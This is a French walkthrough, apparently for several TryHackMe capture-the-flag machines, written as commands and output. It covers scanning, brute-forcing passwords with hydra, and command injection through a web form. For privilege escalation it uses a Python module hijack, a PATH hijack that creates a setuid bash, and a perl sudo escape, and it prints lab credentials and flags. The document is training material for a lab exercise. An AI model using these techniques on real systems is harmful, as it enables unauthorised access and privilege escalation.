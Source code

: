 # Guide — Résolution des machines (TryHackMe)

# 1) E‑Corp (user.txt)

**Étapes** :

1. Scanner la machine :

```bash
nmap -sC -sV -A 10.10.120.246
```

2. Découvrir l'interface web :

```bash
curl http://10.10.120.246/login/
# Inspecter le code source, on trouve un commentaire :
# <!-- Remember the company policy: color + two digits number -->
```

3. Interroger l'API hint :

```bash
curl http://10.10.120.246/api/user/passwordhint/elliot
# Réponse : {"hint":"All is not black or white","username":"elliot"}
```

4. Interprétation de l'indice : « All is not black or white » → **gris** (gray/grey) + **2 chiffres**.

   * Construire un dictionnaire contenant les variantes `gray`/`grey` + combinaisons de 2 chiffres (00–99).
   * Tester les combinaisons via l'API web jusqu'à obtenir les bonnes credentials.

5. Credentials trouvés : `elliot:Im_M1st3r_R0b0T`

```bash
ssh elliot@10.10.120.246
cat /home/elliot/user.txt
```

---

# 2) Toss a Coin (user.txt + root.txt)

**Résumé rapide** : découverte d'un site avec énigme lyrique, récupération d'identifiants via source HTML, élévation de privilèges par `sudo` et manipulation de PATH pour obtenir un binaire SUID exploitant `date`.

**Étapes** :

1. Scan et discovery :

```bash
nmap -sV 10.10.179.5
gobuster dir -u http://10.10.179.5/ -w /usr/share/wordlists/dirb/common.txt
# répertoires intéressants : /img et /t
```

2. Le site contient la phrase répétée « Do you know the lyrics? ». Suivre les chemins pour arriver à la page finale (lettre par lettre) :

```
http://10.10.179.5/t/o/s/s/_/a/_/c/o/i/n/_/.../w/i/t/c/h/e/r/
```

3. La page finale affiche "So you DO know the lyrics..." — regarder le code source HTML.

   * On trouve une ligne cachée contenant les credentials :

```
jaskier:YouHaveTheMostIncredibleNeckItsLikeASexyGoose
```

4. SSH avec `jaskier` :

```bash
ssh jaskier@10.10.179.5
cat user.txt
# Flag user : EPI{R3Sp3C7_D03sNT_M4k3_h1S70rY}
```

5. Vérifier `sudo -l` :

   * L'utilisateur peut exécuter `/usr/bin/python3.6 /home/jaskier/toss-a-coin.py` en tant que `yen`.

6. Exploitation (`python` importe `random`) :

```bash
# Créer un faux module random qui spawn un shell
echo 'import os; os.system("/bin/bash")' > /home/jaskier/random.py
# Lancer le script en tant que yen
sudo -u yen /usr/bin/python3.6 /home/jaskier/toss-a-coin.py
# On obtient un shell en tant que yen
```

7. Trouver binaire SUID root `/home/yen/portal` qui exécute : `date --date=next hour`.

   * Préparer un répertoire contrôlé dans PATH et substituer `date` par un wrapper qui copie `bash` setuid :

```bash
mkdir /tmp/exploit && cd /tmp/exploit
cat > date << 'EOF'
#!/bin/bash
/bin/date --date="next hour" -R
cp /bin/bash /tmp/rootbash
chmod 4755 /tmp/rootbash
EOF
chmod +x date
export PATH=/tmp/exploit:$PATH
cd /home/yen && ./portal
# Maintenant /tmp/rootbash est SUID sur l'owner (geralt)
/tmp/rootbash -p
# shell avec euid=geralt
```

8. Récupérer la password de geralt et se connecter :

```bash
cd /home/geralt && cat password.txt  # => IH4teP0rt4ls
su geralt
# password : IH4teP0rt4ls
```

9. En tant que geralt, `sudo -l` montre que perl peut être exécuté en root.

```bash
sudo /usr/bin/perl -e 'exec "/bin/bash"'
cat /root/root.txt
# Flag root : EPI{D3s71Ny_1s_Ju5t_Th3_3mB0D1m3Nt_0f_Th3_S0uL_S_D3s1R3_T0_Gr0W}
```

---

# 3) Secret of the maw (user.txt)

**Résumé rapide** : découverte d'un répertoire via `gobuster`, formulaire avec champ "discrete", injection de commande via l'interface qui exécute `sudo -u six .musicbox`.

**Étapes** :

1. Lancer gobuster :

```bash
gobuster dir -u http://<IP_ADRESSE> -w ../medium.txt
```

2. Trouver la page `discrete`. Dans le champ mot de passe, entrer la charge utile :

```text
echo "head /home/six/user.txt" | sudo -u six /home/six/.musicbox
```

3. Le site renvoie une sortie contenant le flag :

```
You entered head /home/six/user.txt
EPI{I_MuS7_F1nD_@_W4y_0Ut}
```

---

# 4) Yer a wizard (user.txt)

**Résumé rapide** : brute-force FTP, récupération d'un mot de passe caché dans un fichier `.ReallyHidden`, SSH + base64 (décodages répétés) pour obtenir le flag.

**Étapes** :

1. Scanner puis brute‑force FTP si besoin :

```bash
nmap -Pn -p- <IP_ADRESSE>
hydra -L users.txt -P users.txt ftp://<IP_ADRESSE> -t 4 -vV
```

2. Connexion FTP anonyme possible : `anonymous:anonymous`.

   * Récupérer le fichier caché :

```bash
get .ReallyHidden
cat .ReallyHidden  # contient : FINE! My password is IAlreadySaidTooMuch.
```

3. SSH avec `hagrid` (ou autre user) en utilisant le mot de passe trouvé, puis récupérer `user.txt` qui contient une chaîne encodée en base64 plusieurs fois.

4. Décoder plusieurs fois :

```bash
echo "<chaine1>" | base64 -d
# répéter jusqu'à obtenir le flag final : EPI{0n3_kaN_n3v3R_haV3_3n0U9H_50CK2}
```

---

# 5) Grandline (user.txt)

**Résumé rapide** : découverte d'un dépôt `.git` exposé dans un répertoire `lost`, récupération d'une clé/credential dans l'historique git, utilisation de l'API pour créer un compte et SSH.

**Étapes** :

1. Reconnaissance :

```bash
nmap <IP_ADRESSE>
gobuster dir -u http://<IP_ADRESSE>/ -w ../common.txt
# trouver /lost
gobuster dir -u http://<IP_ADRESSE>/lost -w ../medium.txt
# trouver .git
```

2. Récupérer le dépôt `.git` :

```bash
wget -r -np -R "index.html*" http://<IP_ADRESSE>/lost/.git/
# puis inspecter les commits (git show, git log, etc.)
```

3. Chercher dans les commits une clé/API token laissée par erreur, puis l'utiliser :

```bash
curl -X POST http://<IP_ADRESSE>/api/zoro
# réponse : {"username":"zoro","password":"1_G07_L0S7_0Nc3_4G41n"}
```

4. SSH avec `zoro` et récupérer `user.txt` :

```bash
ssh zoro@<IP_ADRESSE>
cat /home/zoro/user.txt
# Flag user : EPI{1f_1_91V3_uP_noW_1M_9o1N9_7O_r39R37_17}
```
